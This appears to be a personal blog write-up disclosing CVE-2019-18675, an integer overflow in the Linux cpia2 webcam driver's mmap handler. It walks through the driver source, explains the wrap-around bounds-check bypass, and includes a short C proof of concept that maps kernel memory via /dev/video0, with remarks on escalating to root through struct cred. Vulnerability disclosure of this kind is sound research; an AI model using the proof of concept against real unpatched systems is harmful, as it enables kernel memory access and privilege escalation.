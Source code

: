 ```yaml
---
layout: post
title: mmap handler exploitation
category: Kernel-Research 
---
```


## Description
Recently I started to review the linux kernel , I've putted much  time and effort trying to identify vulnerabilities. 
I looked on the cpia2 driver , which is a V4L driver , aimed for supporting cpia2 webcams. official documentation [here]( https://www.kernel.org/doc/html/latest/media/v4l-drivers/cpia2.html). 
I found a vulnerability in the mmap handler implementation of the driver. Kernel drivers may re-implement their own mmap handlers , usually for speeding up the process of exchanging data between user space and kernel space. The cpia2 driver re-implement a mmap hanlder for sharing  the frame's buffer with the user application which controls the camera.
---

## Lets get into it 
Here is the userspace mmap function prototype (taken from man):
```c
void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
```
Here the user supplies parameter for the mapping , we will be interested in the size and offset parameters.
- length - will determine the length of the mapping
- size - will determine the offset from the beginning of the device we will start the mapping from.

The driver's specific mmap handler will remap kernel memory to userspace using a function like  [remap_pfn_range](https://www.kernel.org/doc/htmldocs/kernel-api/API-remap-pfn-range.html)
## CVE-18675

Lets have a look at the cpia2 mmap handler implementation:

We can see  the file_operations struct:
```c

/***
 * The v4l video device structure initialized for this device
 ***/
static const struct v4l2_file_operations cpia2_fops = {
	.owner		= THIS_MODULE,
	.open		= cpia2_open,
	.release	= cpia2_close,
	.read		= cpia2_v4l_read,
	.poll		= cpia2_v4l_poll,
	.unlocked_ioctl	= video_ioctl2,
	.mmap		= cpia2_mmap,
    };
```

Lets look at the function cpia2_mmap 
```c
static int cpia2_mmap(struct file *file, struct vm_area_struct *area)
{
	struct camera_data *cam = video_drvdata(file);
	int retval;

	if (mutex_lock_interruptible(&cam->v4l2_lock))
		return -ERESTARTSYS;
	retval = cpia2_remap_buffer(cam, area);

	if(!retval)
		cam->stream_fh = file->private_data;
	mutex_unlock(&cam->v4l2_lock);
	return retval;
}
```

It just calls the function cpia2_remap_buffer() with a pointer to the `camera_data` struct:

```c
/******************************************************************************
 *
 *  cpia2_remap_buffer
 *
 *****************************************************************************/
int cpia2_remap_buffer(struct camera_data *cam, struct vm_area_struct *vma)
{
	const char *adr = (const char *)vma->vm_start;
	unsigned long size = vma->vm_end-vma->vm_start;
	unsigned long start_offset = vma->vm_pgoff << PAGE_SHIFT;
	unsigned long start = (unsigned long) adr;
	unsigned long page, pos;

	DBG("mmap offset:%ld size:%ld\n", start_offset, size);

	if (!video_is_registered(&cam->vdev))
		return -ENODEV;

	if (size > cam->frame_size*cam->num_frames  ||
	    (start_offset % cam->frame_size) != 0 ||
	    (start_offset+size > cam->frame_size*cam->num_frames))
		return -EINVAL;

	pos = ((unsigned long) (cam->frame_buffer)) + start_offset;
	while (size > 0) {
		page = kvirt_to_pa(pos);
		if (remap_pfn_range(vma, start, page >> PAGE_SHIFT, PAGE_SIZE, PAGE_SHARED))
			return -EAGAIN;
		start += PAGE_SIZE;
		pos += PAGE_SIZE;
		if (size > PAGE_SIZE)
			size -= PAGE_SIZE;
		else
			size = 0;
	}

	cam->mmapped = true;
	return 0;
}
```
we can see that start_offset + size is being calculated , and the sum is being compared to the totoal size of the frames.        
However, the calculation start_offset + size could wrap-around to a low value, allowing an attacker to bypass the check while still using a  big start_offset value which will lead to mapping of unintended  kernel memory. The only requirement is that the start_offset value will be a multiple of the frame_size (which can be controlled by the cpia2 driver options, by default its 68k).
And this can be  quite bad because a huge offset will allow us to perform a mapping in an arbitrary offset (outside of  the frame buffer's bounds)  , and this  can possibly result in  a privillege escalation

## Demo time!

I've used a qemu kernel virtual machine ([here]()).
Now we have to:

- Open /dev/video0 
- mmaping size 0x11000 at offset 0xffffffffffff0000. The overlow will ocuur and we will pass the check :)

Here is a minimalistic example for exploit code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>

#define VIDEO_DEVICE "/dev/video0"
int main(){

        pid_t pid;
        char command[40];

        int fd =  open(VIDEO_DEVICE , O_RDWR);
        if(fd < 0){
                printf("[-]Error opening device file\n");
        }

        printf("[+]Demonstration\n");
        pid = getpid();
        printf("[~]PID IS %d ", pid);

        getchar();
        int size =  0x11000;
        unsigned long mapStarter = 0x43434000;
        unsigned long * mapped = mmap((void *)mapStarter,  size, PROT_WRITE | PROT_READ, MAP_SHARED , fd , 0xffffffffffff0000);


        if(mapped == MAP_FAILED)
                printf("[-]Error mapping the specified region\n");
        else
                puts("[+]mmap went successfully\n");
        /*view the /proc/<pid>/maps file */

        sprintf(command , "cat /proc/%d/maps", pid);
        system(command);

        return 0;
}

```
Compile and run:

![](/assets/img/alictf-2016/demo.png) 

and B00M! we have got a read and write primitives in kernel space! By modifying `` struct cred `` or kernel function pointers/ variables we can possibly gain root! or destroy kernel data!

## Tips and thoughts 

- Because I didnt have the required hardware (for example,  Intel Qx5 microscope ), I've made some changes in the driver's code for this poc . I made some changes to the hardware and usb's parts, In a way that allowed me to test the mmap functionallity as its in the original driver . Because the vulnerability is not related to the hardware interaction partsl , this wasn't a problem. 
This way I could research more and even debug the interesting parts  without being depend on hardware.

- This vulnerability is more than 8 years old!

- This is my first public vulnerability!


## Additional info

- CVE-18675 on [NVD](https://nvd.nist.gov/vuln/detail/CVE-2019-18675)
- CVE-18675 on [Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18675)
